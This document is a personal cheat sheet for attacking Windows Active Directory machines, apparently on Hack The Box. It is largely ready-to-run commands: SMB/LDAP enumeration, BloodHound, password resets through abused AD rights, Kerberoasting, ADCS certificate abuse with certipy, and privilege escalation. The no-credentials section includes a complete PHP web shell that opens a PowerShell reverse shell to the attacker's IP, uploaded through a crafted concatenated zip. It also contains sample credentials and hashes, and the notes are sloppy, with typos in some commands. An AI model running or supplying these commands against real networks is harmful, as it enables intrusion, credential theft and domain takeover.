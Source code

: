 ## This is for the windows targets:
Ports to pay attention:
445 SMB
389 LDAP
1433 MSSQL

normally you will get some creds for win machines.
You should try them to find what they are for


**enumeration:**

gobuster dir -u "http://name.htb" -w /usr/share/wordlists/seclists/Discovery/Web-Content/dire....txt -t 100 -x php (windows usually use php files)


1) netexec ldap <targetIP> -u <username> -p <password>
and you will get smb and ldap confirmation

2) nxc smb <TargetIP> -u '<username>' -p '<password>' --shares
and you getw all the smb shares

3) crackmapexec smb <targetIP> -u <username> -p <password> --users or --computers

and now you get the info you wanted:

1) smbclient -L //targetip -U <username>
and then
2) smbclient //targetip -U <username>
>ls
and you get the files
3)

Then use bloodhund to find the connections and then use impacet tools.

---------------------------------------------------------------------------------------------------------
## An all around windows check guide

1. you do the normal scans (nmap for tcp and udp, rustscan)
2. 


---------------------------------------------------------------------------------------------------------
1. crackmapexec smb xx.xx.xx.xx -u levi.james -p 'KingofAkron2025!' --users                          (the creds are given)
2. nxc smb PUPPY.HTB -u 'levi.james' -p 'KingofAkron2025!' --rid-brute | grep "SidTypeUser" | awk -F '\\' '{print
$2}' | awk '{print $1}' > users.txt                                                      (just creates a .txt with all users)

3. use bloodhound to see all the connections
4. if your user has "GenericWrite" at someone else you can change his password
5. crackmapexec smb xx.xx.xx.xx -u levi.james -p 'KingofAkron2025!' --shares
6. smbclient \\\\xx.xx.xx.xx\\DEV -U "levi.james"
7. try dir and get filename

bloodyAD -u ant.edwards -p 'Antman2025!' -d puppy.htb --dc-ip <ip> set password adam.silver 'abc@123'

save into modify.ldif

dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 512

ldapmodify -x -H ldap://10.10.11.70 -D "ant.edwards@puppy.htb" -w 'Antman2025!' -f modify.ldif

evil-winrm -i 10.10.11.70 -u 'ADAM.SILVER' -p 'abc@123'


----------------------------------------------------------------------------------------------------------------------
**Bloodhound is a must!** with creds
1. bloodhound-python -u name -p password -d domain.htb -ns ip -c all --zip
The next part is different everytime
2. If you have **WriteSPN**:
    you need this: https://github.com/ShutdownRepo/targetedKerberoast (git clone it) /n
   a. ntpdate -u IP
   b. faketime "2025-06-09 16:22:00" python3 targetedKerberoast.py -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!' --dc-ip 10.10.11.72
   c. hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
  If you have **AddSelf**:
   a. nano randomname.ldif
     dn: CN=<thetargetname>,CN=Users,DC=<domain>,DC=htb
     changetype: modify
     add: member
     member: CN=<targetuser>,CN=Users,DC=<domain>,DC=htb
   b. ldapmodify -x -D "domain\targetusername" -w <password> -H ldap://ip -f randomname.ldif
  If you have **ReadGMSAPassword**:
   a. git clone : https://github.com/micahvandeusen/gMSADumper
   b. python3 gMSADumper.py -u name -p password -l ip -d domain.htb
   and you will get a hash but you cant crack it yet.
  If you have **ForcechangePassword**:
   a. bloodyAD -u 'userfrombefore$' -p ':1c37d00093dc2acf25a7z7f2d471fake4afdcthehashfrombefore' -d domain.htb --dc-ip ip set password sanm 'Password123!'
  If you have **WriteOwner**:
   a. impacket-owneredit -action write -new-owner 'sam' -target 'john' 'domain/sam:Password123!' -dc-ip ip
   b. impacket-dacledit -action 'write' -rights 'FullControl' -principal 'sam' -target-dn "CN=john,CN=Users,DC=domainname,DC=htb" 'domainname.htb/sam:Password123!' -dc-ip ip
   c. bloodyAD -d domainanme.htb -u 'sam' -p 'Password123!' --dc-ip ip set password john 'NewPa$$word'
   d. evil-winrm -i ip -u john -p 'NewPa$$word'


----------------------------------------------------------------------------------------------------------------------
1. sudo rdate -n 10.10.11.69  (windows machinesusually need to have the same time as target)
if this doesnt stay try: faketime

2. sudo responder -I tun0 -v
and
smbclient //targetip/IT -U <name>%<password> -c "put <filename>"    to upload a file at smb with write prev

ntpdate -u "ip"

faketime '2025-05-27 20:41:00' certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account ca_svc

export KRB5CCNAME=ca_svc.ccache

 faketime '2025-05-27 20:43:00' certipy-ad account -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -user 'ca_svc' read

faketime '2025-05-27 20:43:00' certipy-ad account -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -upn 'administrator' -user 'ca_svc' update

faketime '2025-05-27 20:44:00' certipy-ad req  -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -target 'DC01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'

faketime '2025-05-27 20:45:00' certipy-ad account -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update


faketime '2025-05-27 20:46:00' certipy-ad auth -pfx administrator.pfx -username 'administrator' -domain 'domain.htb' -dc-ip targetIP

evil-winrm -i targetIP -u administrator -H 'hash' 

-------------------------------------------------------------------------------------------------------------------------------------------------------
(NO CREDS WINDOWS MACHINE)
1. you need good enumeration + create an account at the website:
   gobuster dir ....... +x php   (windows site usually have .php files)
   ffuf ...... 
2. add---> echo '10.10.11.xx name.htb DC01.name.htb' | sudo tee -a /etc/hosts
3. if you found something like ..../upload.php?s_id=1
   try fuzzing it with ffuf or burpsuite
find the right id and there you will find a website that you can upload zip file

4. ZipSlip  (it allows attackers upload a zip file which has a legit file.pdf adn then your malware)
a) echo "hi" > legit.pdf
b) zip legit.zip legit.pdf
c) nano shell.php and put inside this:
  <?php
shell_exec("powershell -nop -w hidden -c \"\$client = New-Object System.Net.Sockets.TCPClient('YOURIP',4444); \$stream = \$client.GetStream(); [byte[]]\$bytes = 0..65535|%{0}; while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){; \$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0,\$i); \$sendback = (iex \$data 2>&1 | Out-String ); \$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> '; \$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2); \$stream.Write(\$sendbyte,0,\$sendbyte.Length); \$stream.Flush()}; \$client.Close()\"");
?>

and do: zip mal.zip shell.php
and: cat legit.zip mal.zip > combined.zip
and upload this zip

d) nc -lvnp 4444
e) then go where this file has saved, meybe: ..../uploads/shell.php

5. now you have a rce as xamppuser. Try to find usefull files like databases and hashes.
use type filename
6. if you find hashes try:
hashcat -a 0 -m hashid -w /usr/share/wordlists/rockyou.txt
7. and log in with evilrm to thuis account and then use bloodhound to find the connections
8. usually you will be able to change a password with:
net rpc password "targetname" "newP@ssword2022" -U "domainanme.htb"/"yourusername"%"thecodeyoufoundfromhash" -S domainanmeagain.htb        (all this on your machine)

9. and this user will have soem rights. you can check with bloodhound and then try to login with evilrm and try:
whoami /priv

if you found seManageVolumePrivilege: then you have the rights to manage The file system like C.
it has the exploit: https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public
you dowenload this .exe file at your pc
and then you evilrm at the user fro mthis directory and press: upload .....exe

10. now you run it there: .\SeManageVolumeExploit.exe

and this user now has full control over C
Your target is the Certification authorities CA
11. certutil -exportPFX my "domainanme-LTD-CA" C:\Users\Public\ca.pfx
12. go at the download file at \Public ---> cd Public

13. download ca.pfx    ( PFX IS THE TYPE THAT CA ARA STORED)
14. then at your pc forge a fake administrator.pfx:
   certipy-ad forge -ca-pfx ca.pfx -upn 'administrator@domainanme.htb' -subject 'CN=Administrator,CN=Users,DC=domainanme,DC=htb' -out forged_admin.pfx

15. and now abuse ceripy to auth this ca with kerberos tgt:
certipy-ad auth 0pfx forged_admin.pfx -dc-ip 10.10.11.x -username 'administrator' -domain 'domainanme.htb'

16. You are ready to connect with evil-winrm:
evil-winrm -i 10.10.11.x -u administrator -H'd803303515bf814ac14c5f1702abh866....'


